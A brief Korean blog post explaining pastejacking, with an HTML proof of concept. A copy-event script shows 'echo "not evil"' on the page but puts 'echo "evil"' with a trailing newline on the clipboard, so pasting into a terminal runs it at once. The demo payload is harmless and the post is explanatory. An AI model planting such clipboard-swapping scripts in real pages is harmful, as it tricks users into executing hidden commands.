 ```yaml
---
post_title: test3
layout: post
---
```


```html
<html>
 	<p>echo "not evil"</p>
 	<script>
 		document.addEventListener('copy', function(e) {
 			console.log(e);
 			e.clipboardData.setData('text/plain', 'echo "evil"\r\n');
 			e.preventDefault();
 		});
 	</script>
</html>
```

페이스트 재킹이라고, 카피 이벤트를 핸들링해서 유저가 보고 있는 화면과, 복사된 화면이 다르게 하는 경우가 있다. 위의 경우에는 echo "not evil" 이 실행될 거라 예상하고 복사해서 터미널에 붙이는 순간, 실제로는 echo "evil"이 실행된다. 물론 대부분 관리자 권한에 대해서는 따로 체크하겠지만, root 계정으로 접속되어 있는 상태라면 문제가 발생할 수도 있겠다.
